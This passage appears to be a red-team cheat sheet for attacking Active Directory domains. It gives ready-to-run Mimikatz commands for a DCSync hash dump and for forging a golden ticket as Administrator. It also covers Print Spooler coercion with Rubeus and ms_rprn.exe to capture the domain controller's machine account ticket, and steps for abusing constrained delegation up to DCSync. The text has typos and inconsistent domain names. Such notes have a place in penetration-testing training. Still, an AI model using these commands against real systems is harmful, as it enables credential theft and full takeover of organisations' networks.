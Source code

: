 	
	## Extract krbtgt account hash
	
	Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\dc-01$"'
	
	## Domain SID 
	
	whoami /all (of a domain user)
	
	## Adversary Forge Golden ticket in a Domain as follows 
	
	Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-yyyyyyyy-zzzzzzzzzz-xxxxxx /target:enterprise-dc.cyberwarfare.corp /service:cifs /rc4:<HASH> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
	
    
      Note:
    
      1) Use bloodhound to identify the attack path to compromise the Computer where unconstrained delegation is allowed. Also, you can find out the user account who has local admmin rights on the given system
    
      2) Wait for DA user to login, and dump the cached TGT ticket for high privileged user using Mimikatz
    
      3) Alternately, if there is Print Sppoler service installed on DC, it can be expoited to capture NTLM hash of DC machine account. It can be further used to craft Silver ticket for given service
    
    ```
    

**Print Spooler attack**

- Checked Print Service is running on the DC
    
    ```powershell
    dir \\dc.organicsecurity.local\pipe\spoolss
    
    ```
    
- Execute the Rubeus.exe for continues monitoring of TGT/TGS tickets
    
    ```powershell
    .\Rubeus.exe monitor /interval:2 /nowrap
    
    ```
    
- Execute MSRPRN.exe to trigger printspooler server iinto authenticating with our conpromised server having unconstrained delegation enabled to capture DC machine account hash
    
    ```powershell
    .\ms_rprn.exe \\dc.organgesecurity.local \\appserver.organicsecurity.local
    
    ```
    

**Constrained Delegation**

1. List all the users having Constrained Delegation
2. Keep a note of the msDS-AllowedToDelegateTo value
3. Request for a TGT using the hash of the user with CD using kekeo (Which me must have collected before)
4. Keep a note of the TGT return ticket
5. Now request a TGS with the 2nd step and 4th step values as parameters in `/service` and `/tgt`
6. Keep a note of the TGS return Ticket
7. Now we can inject the TGS return Ticket with Inkove-Mimikatz
8. We can now list the file systems of that account. Example : `ls \\dc-mysql\C$` but can not use any WMI-Commands
9. But if the user DC we can do the same process and then do a DCSync attack

